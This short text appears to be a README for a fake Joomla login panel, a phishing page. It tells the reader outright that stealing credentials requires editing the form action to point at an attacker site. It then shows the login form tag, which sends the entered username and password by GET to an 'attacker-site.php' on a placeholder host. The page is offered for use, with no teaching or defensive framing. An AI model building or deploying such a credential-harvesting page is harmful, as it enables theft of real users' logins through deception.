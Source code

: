 # Fake Joomla Login Panel
Please note that if you want to steal the credentials you have to edit the form action tag and put in there you attacker site at line: 8911

      <form action="http://yourhost/test/attacker-site.php?username=username&passwd=password" method="get" id="form-login" class="form-inline">
